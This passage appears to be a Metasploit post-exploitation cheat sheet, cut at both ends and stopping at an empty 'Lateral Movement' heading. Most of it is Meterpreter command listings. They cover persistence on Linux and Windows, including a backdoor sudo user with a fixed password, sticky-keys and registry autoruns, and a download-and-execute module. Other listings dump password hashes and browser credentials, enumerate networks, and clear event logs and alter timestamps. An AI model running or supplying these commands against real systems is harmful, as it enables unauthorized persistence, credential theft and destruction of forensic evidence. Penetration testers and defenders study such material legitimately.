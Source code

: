 ```
```
meterpreter > run post/linux/manage/sshkey_persistence
meterpreter > run post/linux/manage/download_exec

# Creating a backdoor user
meterpreter > shell
$ useradd -m -s /bin/bash -G sudo backdoor
$ echo "backdoor:password123" | chpasswd
```

### Windows Persistence

```
meterpreter > run post/windows/manage/persistence_exe
meterpreter > run post/windows/manage/sticky_keys

# Using scheduled tasks
meterpreter > run post/windows/manage/scheduled_tasks

# Using registry autoruns
meterpreter > run post/windows/manage/registry_persistence
```

## Post-Exploitation Tips

### Gathering Sensitive Information

1. **Credential harvesting**:
   ```
   meterpreter > run post/multi/gather/credentials
   meterpreter > run post/windows/gather/credentials/credential_collector
   meterpreter > run post/linux/gather/hashdump
   ```

2. **Password hash dumping**:
   ```
   meterpreter > hashdump    # Windows
   meterpreter > run post/windows/gather/smart_hashdump
   meterpreter > run post/linux/gather/hashdump    # Linux
   ```

3. **Browser credentials**:
   ```
   meterpreter > run post/multi/gather/firefox_creds
   meterpreter > run post/windows/gather/enum_chrome
   ```

4. **Network configuration**:
   ```
   meterpreter > run post/multi/gather/ping_sweep
   meterpreter > run post/windows/gather/enum_domains
   ```

### Cleanup and Anti-Forensics

```
meterpreter > clearev    # Clear Windows event logs
meterpreter > timestomp [file] -m "01/01/2022 10:10:10"  # Modify file timestamps
```

### Lateral Movement

```
